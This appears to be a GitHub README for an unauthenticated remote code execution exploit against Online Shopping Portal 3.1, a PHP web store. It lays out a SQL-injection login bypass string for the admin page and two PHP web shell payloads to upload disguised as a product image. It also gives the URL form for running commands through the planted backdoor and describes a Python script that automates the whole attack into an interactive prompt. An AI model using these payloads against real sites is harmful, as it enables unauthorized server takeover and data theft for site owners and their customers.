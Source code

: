 # Online Shopping Portal 3.1 - Remote Code Execution (Unauthenticated)

Date: 17.07.2021\
Exploit Author: D3duct1V\
Original Exploit Author: Tagoletta (Tağmaç)\
Original EDB-ID: 50029\
Software Link: https://phpgurukul.com/shopping-portal-free-download/ \
Version: v1.0\
Tested on: Windows\

---
# Manual Exploit Details

The exploit utilizes multiple vulnerabilities first bypasses authentication then allows for file php file upload. 

## Authentication Bypass

Navagate to the Admin login page: `http://<site>/shopping/admin` \
Username: `'OR 1=1'--` \
Password: whatever
  
## File upload vulnerability

After bypassing the authentication navagate to the "Add a new product" \
Here insert whatever data into the fields until the picture. \
The image file should be a php file with the command execution such the following:
  1. `<?php $exe = shell_exec($_REQUEST['cmd']); echo $exe; ?>`
  2. `<?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd = ($_GET['cmd']); system($cmd); echo '</pre>'; die; } ?>`

## Interacting with the backdoor

Search for the newly uploaded "product" and locate the image URL. \
Then use curl to interact with the backdoor: `http://<site>/shopping/admin/productimages/1/<image>.php?cmd=hostname` 

# Automated attack

Running the python script found within this repo uses Python 3 and needs the requests package \
The script can be started `# python3 script.py -u <target URL minus /shopping>` 

The script will bypass the authentication upload a backdoor with a product name and image name. \
It will then find the backdoor and attempt to connect to and run a current directory echo command. \
Once successful will drop into a interactive command prompt, this will run system commands but not a full shell. 

# Metasploit module

Coming.

